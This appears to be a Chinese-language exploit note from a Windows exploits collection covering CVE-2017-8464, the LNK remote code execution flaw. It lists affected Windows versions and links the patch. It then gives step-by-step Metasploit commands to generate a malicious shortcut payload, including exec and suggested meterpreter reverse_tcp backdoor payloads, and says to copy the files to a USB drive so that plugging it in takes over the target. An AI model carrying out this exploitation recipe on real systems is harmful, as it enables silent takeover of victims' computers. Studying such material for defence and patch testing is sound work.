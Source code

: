 ### CVE-2017-8464

#### 描述

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### 利用方式

测试机器Windows 7 SP1 x64，直接用msf来利用

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #要是x86使用windows/exec，还可以设置后门windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

生成文件

![CVE-2017-8464_win7_x86_msf](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf.png?raw=true)

运行命令把它拷贝到test目录下

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf2.png?raw=true)

接着把这些文件全部拷贝到U盘中，然后插上电脑即可

测试机器是虚拟机，所以需要打一个补丁**KB2533623**和装一个驱动**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，然后USB设置为3.0，Windows7的补丁放在了这里

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF图如下

![1](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86.gif?raw=true)

